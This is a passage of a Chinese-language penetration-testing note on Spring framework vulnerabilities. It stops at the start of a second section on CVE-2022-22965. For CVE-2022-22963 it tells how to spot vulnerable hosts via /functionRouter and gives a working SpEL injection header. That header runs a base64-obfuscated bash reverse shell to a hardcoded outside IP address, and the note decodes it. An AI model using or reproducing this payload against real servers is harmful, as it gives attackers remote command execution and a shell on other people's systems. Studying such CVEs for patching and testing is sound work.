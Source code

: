 ## Spring框架漏洞



### 1.Spring Cloud Function SPEL 远程代码执行(CVE-2022-22963)

![image-20241015103043764](C:/Users/15539/AppData/Roaming/Typora/typora-user-images/image-20241015103043764.png)

这whitelabel error page就是经典的Spring 框架

访问/functionRouter底下如果有status 500的状态码说明可能存在漏洞

构造数据包(注意这里是POST请求)

![image-20241015103327977](https://s2.loli.net/2024/10/15/PUBVvAO9LxcDmaG.png)

```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExNi42Mi43LjIwNi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}")
```

其中的base64是要执行的语句

```
YmFzaCAtaSA+Ji9kZXYvdGNwLzExNi42Mi43LjIwNi82NjY2IDA+JjE=
转码后
bash -i >&/dev/tcp/116.62.7.206/6666 0>&1
```

建议在字典里加上/functionRouter的路径

另外现在很多工具好像都测不出来spring框架的漏洞

### 2. Spring Framework 远程命令执行漏洞(CVE-2022-22965)

> 参考:
>
> [【Vulfocus漏洞复现】spring-core-rce-2022-03-29-CSDN博客](https://blog.csdn.net/weixin_45632448/article/details/124190382)
>
> [CVE-2022-22965 Spring远程代码执行漏洞复现 - wavesky - 博客园 (cnblogs.com)](https://www.cnblogs.com/wavesky/p/16294694.html)
>
> [Spring框架远程命令执行复现（CVE-2022-22965） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/335663.html)
>
> [Spring-Core RCE反序列化漏洞原理与复现_spring反序列化漏洞-CSDN博客](https://blog.csdn.net/FisrtBqy/article/details/130680683)
>
> 

![image-20241015124423752](https://s2.loli.net/2024/10/15/HOj1KRbEmrkWGNl.png)

#### 方法一:get方式
